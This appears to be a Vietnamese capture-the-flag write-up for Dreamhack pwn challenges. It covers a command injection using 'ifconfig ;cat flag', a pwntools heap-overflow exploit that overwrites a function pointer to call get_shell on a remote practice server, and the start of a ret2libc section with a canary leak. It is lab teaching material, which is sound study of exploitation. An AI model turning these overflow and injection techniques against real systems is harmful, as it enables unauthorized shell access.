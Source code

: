 ta sẽ overwrite s1 bằng chuỗi 'ifconfig' + bug  command injection

![image](https://hackmd.io/_uploads/rkJs6BOQke.png)

------------


7 . basic_heap_overflow
---------

reverse : 

malloc cho v4 ( 0x20 ) , malloc 1 con trỏ trỏ tới 1 struct (0x20)

- gán con trỏ hàm table_func cho v5
- scanf ( có BOF )

![image](https://hackmd.io/_uploads/Sk4S0S_7yl.png)

sẽ có heap over flow ở bài này như tên bài đã nói

v4 và v5 được khởi tạo kế nhau → overflow v5 trỏ đến hàm get_shell

script :

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./basic_heap_overflow')
#p = process()
p = remote('host3.dreamhack.games', 16275)
#payload = b'a'*32 
#payload += b'ifconfig ;cat flag'
#p.sendlineafter(b'name: ',payload)
payload =b'a'*40
payload += p32(exe.sym.get_shell)
p.sendline(payload)
p.interactive()
```


có 1 điều cần lưu ý là ta đang debug với 64bit , khi malloc nó sẽ + với heap meta data là 16bytes , còn sever chỉ là 8bytes nên cần canh chỉnh sao cho hợp lý


-----------


8 . Return to Library
--------------

1 bài ret2system basic

reverse :


- bug ở read + printf("%s") , nó sẽ leak cho ta canary , libc ………

![image](https://hackmd.io/_uploads/HyqqASuQ1x.png)
